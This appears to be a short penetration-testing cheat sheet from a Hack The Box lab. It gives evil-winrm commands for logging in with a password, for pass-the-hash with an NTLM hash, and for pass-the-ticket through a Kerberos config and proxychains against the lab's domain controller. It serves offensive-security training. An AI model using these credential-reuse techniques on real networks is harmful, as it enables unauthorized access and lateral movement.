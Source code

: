 ```yaml
---
tags:
  - PtH
  - PtT
---
```

```shell-session
$ evil-winrm -i 10.129.201.248 -u 'Cry0l1t3' -p 'P455w0rD!'
```
# Pass the Hash
```shell-session
$ evil-winrm -i <IP> -u <USER>[@DOMAIN] -H 30B3783CE2ABF1AF70F77D0660CF3453
```

# Pass the Ticket
Prerequisite: `krb5-user`
Once installed, change `/etc/krb5.conf` to include the following:
```shell-session
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB
<SNIP>
[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
<SNIP>
```

```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```